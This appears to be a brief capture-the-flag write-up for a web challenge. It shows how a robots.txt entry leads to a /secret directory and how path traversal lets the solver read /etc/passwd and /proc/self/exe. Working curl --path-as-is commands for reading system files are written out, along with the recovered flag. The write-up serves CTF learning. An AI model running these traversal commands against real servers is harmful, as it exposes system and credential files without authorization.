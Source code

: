 * Visit http://34.68.159.75:37173/robots.txt
* We see there is a /secret directory. Visit that and there are few notes.
* some Fuzzing reveals there is LFI at `http://34.68.159.75:37173/secret/../../../../../../etc/passwd` 
	* curl --path-as-is "http://34.68.159.75:37173/secret/../../../../../../etc/passwd"
	* open using curl/burp as browser will path normalize
* visit `http://34.68.159.75:37173/secret/../../../../../../proc/self/exe` and you will get the flag
 	* curl --path-as-is "http://34.68.159.75:41521/secret/../../../../../proc/self/exe" 2>&1 | strings | grep pbctf

 pbctf{n0t_re4lly_apache_ap0che!}
